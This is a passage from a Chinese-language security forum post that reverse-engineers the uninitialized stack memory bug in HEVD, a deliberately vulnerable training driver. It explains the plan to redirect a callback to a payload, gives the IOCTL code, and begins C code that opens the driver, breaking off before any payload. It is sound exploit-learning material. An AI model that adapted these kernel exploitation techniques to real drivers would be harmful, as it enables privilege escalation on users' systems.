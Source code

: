 逆向 HEVD.sys  
![](https://bbs.pediy.com/upload/attach/202111/921642_JRK88RA9WBFTK8J.jpg)

 

if (UninitializedMemory.Callback) // 此处判断回调函数是否为空，否则含有空指针漏洞，可利用在 0 页内存上构造 payload，相关 HEVD：

 

[[原创] 内核漏洞学习 [5]-HEVD-NullPointerDereference - 二进制漏洞 - 看雪论坛 - 安全社区 | 安全招聘 | bbs.pediy.com](https://bbs.pediy.com/thread-270246.htm)

 

那么既然有判断，就要换个方法，回调函数地址修改为不为 0 的地址，然后该地址指向 payoad，

[](#三：漏洞利用)三：漏洞利用
-----------------

HEVD_IOCTL_UNINITIALIZED_MEMORY_STACK 控制码对应的派遣函数 UninitializedMemoryStackIoctlHandlercase

```
case HEVD_IOCTL_UNINITIALIZED_MEMORY_STACK:
DbgPrint("****** HEVD_IOCTL_UNINITIALIZED_MEMORY_STACK ******\n");
Status = UninitializedMemoryStackIoctlHandler(Irp, IrpSp);
DbgPrint("****** HEVD_IOCTL_UNINITIALIZED_MEMORY_STACK ******\n");
break;

```

UninitializedMemoryStackIoctlHandlercase 函数调用 TriggerUninitializedMemoryStack 触发漏洞

 

逆向获得 IO 控制码 0x22202f

 

![](https://bbs.pediy.com/upload/attach/202111/921642_4FE5JJXYSGQBY39.jpg)

 

sub_4460E8-->sub_445FFA(漏洞函数)

 

（1）测试

```
#include #include HANDLE hDevice = NULL;
 
#define HEVD_IOCTL_UNINITIALIZED_MEMORY_STACK CTL_CODE(FILE_DEVICE_UNKNOWN, 0x80B, METHOD_NEITHER, FILE_ANY_ACCESS)
//#define HEVD_IOCTL_UNINITIALIZED_MEMORY_STACK                    IOCTL(0x80B)
int main()
 
{
 
    hDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE,
        NULL,
        NULL,
        OPEN_EXISTING,
        NULL,
        NULL
        );
    if (hDevice == INVALID_HANDLE_VALUE || hDevice == NULL)
    {
        printf("[-]failed to get device handle !");
        return FALSE;
 
    }
    printf("[+]success to get device  handle");
 
    if (hDevice) {
```